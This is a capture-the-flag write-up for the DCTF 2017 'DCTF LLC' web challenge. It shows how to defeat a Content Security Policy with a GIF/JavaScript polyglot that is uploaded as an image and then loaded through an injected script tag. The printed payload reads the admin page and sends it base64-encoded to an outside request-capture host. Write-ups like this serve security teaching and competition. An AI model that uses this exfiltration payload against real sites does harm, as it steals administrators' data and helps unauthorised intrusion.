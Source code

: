 ## DCTF LLC

### Description
We are looking for your feedback about our new amazing company! :-) 
Target: https://llc.dctf-quals-17.def.camp/

*Update 11:00 EEST: Do you see what the "admin" is seeing?*

### Author: 
Andrei

### Stats: 
312 points / 21 solvers

### Solution

The challenge is to bypass CSP protection which is quite strong. 
The only way would be be to have a XSS that is executed on the administrator control panel and grab the flag, but the file upload is limited only to images. However you can notice that jquery.js.**MAP** is loaded with text/javascript flag which means that there is some misconfiguration.

####Step 1: 
Upload a file called exploit.js.gif with the following code (you can read more on this approach by searching GIF/Javascript polyglots):

```
GIF89a/**/=0;
$(document).ready(function() {
  $('<form method="get" id="frm" action="http://requestb.in/1j6n7fe1"><input type="text" id="content" name="content" value=""></form>')
    .appendTo('body');

  $.get("admin.php", function(data) { // this file can be found by loading the content of the bot.php?id=???
    $('#content').val(btoa(data));
    $('form').submit();
  });
});//; 
```

#### Step 2: 
Send a new request containing `<script src="link-to-the-exploit.js.gif"></script>`.
#### Step 3: 
Wait a few seconds. Profit.